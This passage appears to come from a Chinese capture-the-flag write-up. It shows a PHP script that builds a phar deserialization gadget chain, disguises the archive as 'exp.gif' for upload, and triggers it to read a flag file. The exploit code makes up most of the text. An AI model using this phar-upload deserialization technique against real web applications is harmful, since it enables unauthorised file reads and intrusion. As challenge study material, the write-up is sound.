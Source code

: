 ```php

}

$a = new Test();
$a->params = [
    'source' => '/var/www/html/f1ag.php'
];

$b = new Show();
$b->str['str'] = $a;

$c = new C1e4r();
$c->str = $b;

$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($c); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();

copy('phar.phar','exp.gif');

?>
```
上传的最终文件路径为upload/md5(文件名+ip).jpg
![](assets/webwp-a5447514.png)
触发反序列化
![](assets/webwp-7e521145.png)